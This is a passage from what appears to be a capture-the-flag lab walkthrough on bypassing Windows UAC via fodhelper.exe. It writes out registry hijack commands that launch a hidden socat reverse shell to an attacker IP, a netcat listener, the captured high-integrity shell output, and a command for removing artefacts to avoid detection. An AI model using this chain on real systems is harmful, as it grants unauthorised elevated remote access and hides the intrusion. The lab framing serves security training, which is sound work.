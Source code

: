 - **Command Prompt**        

```shell-session
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f
The operation completed successfully.
        
```

Notice how we need to create an empty value called **DelegateExecute** for the class association to take effect. If this registry value is not present, the operating system will ignore the command and use the  system-wide class association instead.

- **We set up a listener by using netcat in our machine:**

```
nc -lvp 4444
```

And then proceed to execute **fodhelper.exe**, which in turn will trigger the execution of our reverse shell:

| Command Prompt                `           C:\> fodhelper.exe             ` | ➜    | Attacker's Shell                `           user@kali$ nc -lvp 4444       Listening on 0.0.0.0 4444 Connection received on 10.10.183.127 49813 Microsoft Windows [Version 10.0.17763.1821] (c) 2018 Microsoft Corporation. All rights reserved. C:\Windows\system32>whoami /groups | find "Label" Mandatory Label\High Mandatory Level                          Label            S-1-16-12288        ` |
| ------------------------------------------------------------ | ---- | ------------------------------------------------------------ |
|                                                              |      |                                                              |

The received shell runs with high integrity, indicating we have successfully bypassed UAC.

To retrieve the fodhelper flag, use your new shell to execute:

- **Administrator: Command Prompt**        

```shell-session
C:\> C:\flags\GetFlag-fodhelper.exe
        
```

**Note: Keep in mind that the flag will only be returned if you successfully bypassed UAC via fodhelper and only from the resulting high integrity shell.**

### Clearing our tracks

As a result of executing this exploit, some artefacts were created on the target system in the form of registry keys. To avoid detection, we  need to clean up after ourselves with the following command:

```batch
reg delete HKCU\Software\Classes\ms-settings\ /f
```

**Note: Be sure to execute the given command to avoid any artefact interfering with the following tasks.**
